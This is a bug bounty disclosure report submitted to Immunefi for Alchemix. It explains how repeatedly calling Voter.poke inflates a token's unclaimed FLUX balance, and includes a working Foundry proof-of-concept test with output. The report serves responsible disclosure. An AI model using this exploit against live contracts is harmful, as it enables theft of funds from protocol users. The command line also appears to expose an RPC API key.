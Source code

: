 # 31386 - \[SC - Critical] Malicious user can steal FLUX token by abusing ...

Submitted on May 17th 2024 at 22:21:25 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31386

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* Theft of unclaimed yield

## Description

## Brief/Intro

Malicious user can steal FLUX token by abusing `Voter.poke`

## Vulnerability Details

In [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212) funciton, there is not limitation how many time it can be called within one epoch, and at the end of the function, `Voter._vote` is called.

```solidity
195     function poke(uint256 _tokenId) public {
	...
211         _vote(_tokenId, _poolVote, _weights, _boost);
212     }
```

In [Voter.\_vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455), `IFluxToken(FLUX).accrueFlux(_tokenId);` is calle to accrue Flux token in [Voter.sol#L423](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423)

And in [FluxToken.accrueFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192), the function will check the amount of claimable flux and than update `FluxToken.unclaimedFlux`

```solidity
187     /// @inheritdoc IFluxToken
188     function accrueFlux(uint256 _tokenId) external {
189         require(msg.sender == voter, "not voter");
190         uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
191         unclaimedFlux[_tokenId] += amount;
192     }
```

[VotingEscrow.claimableFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377-L385) is defined as:

```solidity
 377     function claimableFlux(uint256 _tokenId) public view returns (uint256) {
 378         // If the lock is expired, no flux is claimable at the current epoch
 379         if (block.timestamp > locked[_tokenId].end) {
 380             return 0;
 381         }
 382 
 383         // Amount of flux claimable is <fluxPerVeALCX> percent of the balance 
 384         return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
 385     }
```

**As we can see above, `claimableFlux` only calcuate the tokenId's voting power, it doesn't record if the Flux has been claimed already.** So if a malicious user keep calling `Voter.poke`, his tokenId's unclaimedFlux will keeping increasing.

## Impact Details

Malicious user can steal FLUX token by abusing `Voter.poke`

## References

Add any relevant links to documentation or code

## Proof of Concept

Put the following code in `src/test/Voting.t.sol` and run

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc VotingTest --mt testAlicePoke -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testAlicePoke() (gas: 2564522)
Logs:
  getUnclaimedFlux:  1879449739964023604
  getUnclaimedFlux:  2799996511899518614
  getUnclaimedFlux:  3720543283835013624

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.59ms (1.90ms CPU time)

Ran 1 test suite in 1.29s (5.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the above output, every time Alice calls `Voter.poke`, her unclaimed Flux will increase.

```solidity
    function testAlicePoke() public {
        address Alice = address(0x11001100);
        uint256 tokenId = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.prank(Alice);
        voter.vote(tokenId, pools, weights, 0);

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));
    } 
```
